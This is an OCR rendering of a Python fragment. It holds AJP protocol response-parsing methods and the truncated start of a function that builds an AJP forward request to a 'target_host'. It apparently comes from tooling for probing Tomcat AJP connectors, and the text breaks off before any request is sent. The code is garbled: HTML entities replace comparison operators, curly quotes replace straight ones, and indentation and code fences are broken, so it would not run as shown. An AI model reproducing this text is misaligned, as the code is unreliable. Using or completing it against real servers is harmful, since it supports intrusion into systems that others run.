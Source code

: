 def parse_send_headers(self, stream):
	self.http_status_code, = unpack(stream, "&gt;H")
	self.http_status_msg = unpack_string(stream)
	self.num_headers, = unpack(stream, "&gt;H")
	self.response_headers = {}
	for i in range(self.num_headers):
		code, = unpack(stream, "&gt;H")
		if code &lt;= 0xA000: # custom header
			h_name, = unpack(stream, "%ds" % code)
			stream.read(1) # \0
			h_value = unpack_string(stream)
		else:
			h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
			h_value = unpack_string(stream)
		self.response_headers[h_name] = h_value

def parse_send_body_chunk(self, stream):
	self.data_length, = unpack(stream, "&gt;H")
	self.data = stream.read(self.data_length+1)

def parse_end_response(self, stream):
	self.reuse, = unpack(stream, "b")

def parse_get_body_chunk(self, stream):
	rlen, = unpack(stream, "&gt;H")
	return rlen

@staticmethod
def receive(stream):
	r = AjpResponse()
	r.parse(stream)
	return r 
```

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):

fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)

fr.method = method

fr.protocol = “HTTP/1.1”

fr.req_uri = req_uri

fr.remote_addr = target_host

fr.remote_host = None

fr.server_name = target_host

fr.server_port = 80

fr.request_headers = {

‘SC_REQ_ACCEPT’: ‘text/html’,

‘SC_REQ_CONNECTION’: ‘keep-alive’,

‘SC_REQ_CONTENT_LENGTH’: ‘0’,

‘SC_REQ_HOST’: target_host,

‘SC_REQ_USER_AGENT’: ‘Mozilla’,

```